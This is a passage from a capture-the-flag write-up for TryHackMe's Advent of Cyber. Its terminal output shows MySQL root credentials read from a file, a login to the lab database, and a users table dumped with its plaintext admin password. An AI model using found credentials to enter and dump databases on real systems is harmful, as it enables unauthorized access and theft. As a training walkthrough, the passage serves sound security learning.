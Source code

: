 ```
ftp> exit
221 Goodbye.
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat file.txt
remember to wipe mysql:
root
ff912ABD*
```

`file.txt`

3. What is the password after enumerating the database?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mysql -h 10.10.89.226 -uroot -pff912ABD*
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.030 sec)

MySQL [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.030 sec)

MySQL [data]> select * from USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.035 sec)

MySQL [data]> exit
Bye
```
